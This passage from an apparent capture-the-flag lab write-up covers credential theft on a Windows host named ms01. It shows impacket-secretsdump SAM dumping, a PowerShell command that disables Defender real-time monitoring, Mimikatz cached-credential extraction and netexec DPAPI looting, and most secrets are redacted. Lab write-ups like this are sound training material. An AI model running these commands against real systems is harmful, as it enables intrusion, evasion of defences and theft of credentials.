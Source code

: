 ```zsh
➜  ms01 impacket-secretsdump -system system.save -sam sam.save -security security.save LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf0093534e5f21601f5f509571855eeee
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
[*] Cleaning up... 
```
You were about to transfer and run Mimikatz, but Defender is active on ms01.
To disable it, you can use the following command:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Then, we check the cached credentials with Mimikatz and find the Georgia.Price user.

```powershell
mimikatz # lsadump::cache
Domain : MS01
SysKey : f0093534e5f21601f5f509571855eeee

<SNIP>

[NL$3 - 5/3/2025 10:05:03 AM]
RID       : 00000454 (1108)
User      : REFLECTION\Georgia.Price
MsCacheV2 : <REDACTED>
```
### WS01

At this point, we can use netexec to access the password of the Georgia.Price user.

```zsh
➜  ms01 netexec smb ms01.reflection.vl -u administrator -p '<REDACTED>' --dpapi --local-auth
SMB         10.10.219.182   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.10.219.182   445    MS01             [+] MS01\administrator:<REDACTED> (Pwn3d!)
SMB         10.10.219.182   445    MS01             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.10.219.182   445    MS01             [+] Got 12 decrypted masterkeys. Looting secrets...
SMB         10.10.219.182   445    MS01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{013CD3ED-72CB-4801-99D7-8E7CA1F7E370} - REFLECTION\Georgia.Price:<REDACTED>
```

We check the Georgia.Price user in BloodHound and see that they have GenericAll permissions on ws01.

<figure><img src="../assets/img/georgie_to_ws01.png" alt=""><figcaption></figcaption></figure>
